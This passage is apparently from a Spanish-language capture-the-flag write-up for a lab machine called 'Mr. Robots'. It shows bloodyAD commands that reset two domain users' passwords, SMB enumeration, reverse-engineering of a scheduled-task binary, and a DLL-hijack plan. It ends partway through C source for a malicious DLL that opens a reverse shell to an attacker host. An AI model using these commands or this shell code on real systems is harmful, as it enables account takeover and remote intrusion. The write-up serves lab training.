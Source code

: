 bloodyAD --host 10.23.52.1 -d ecorp.thl -u lloyd.chong -p'C6c56\2)+*gpxs#'  set password PHILLIP.PRICE astro@1234!

bloodyAD --host 10.23.52.1 -d ecorp.thl -u lloyd.chong -p'C6c56\2)+*gpxs#'  set password TYRELL.WELLICK astro@1234!
Mr. Robots

Tanto como phillip y tyrell son miembros de administración remota así que me voy a conectar primero a phillip.

Aquí tenemos la primera user flag de la maquina.

Mr. Robots

Enumerando la maquina he encontrado la siguiente ruta pero sin permisos, así que voy a entrar como tyrell.

Mr. Robots

Una vez como tyrell si vuelvo a la misma ruta aqui podemos ver que si me ha dejado acceder.

Mr. Robots

Aquí podemos ver que hay una tarea que se ejecuta ya que podemos ver el .bat así que voy a hacer reversing al .exe.

Pero antes he hecho un smbmap para ver que recursos puedo leer. En este caso puedo leer la carpeta Dark Army.

Mr. Robots

Y aquí me voy a bajar el binario.

Mr. Robots

Para el reversing yo he usado ghidra.

Mr. Robots

Una vez descompilado podemos ver casi el codigo original.

Mr. Robots

Siguiendo esta estructura podemos ver que se ejecuta un .dll el cual se tiene que llamar DeskHelper.dll

Con esta información podemos abusar de un dll malicioso y conseguir una reverseshell con el usuario que ejecute esa tarea programada.

Este es el código que he usado para crearme el .dll malicioso.

#include <winsock2.h>
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>

#pragma comment(lib, "ws2_32.lib")

#define RHOST "10.23.52.10" 
#define RPORT 4444         

BOOL ReverseShell() {
    WSADATA wsaData;
    SOCKET sock;
    struct sockaddr_in server;
    STARTUPINFO si;
    PROCESS_INFORMATION pi;
    char cmd[] = "cmd.exe";
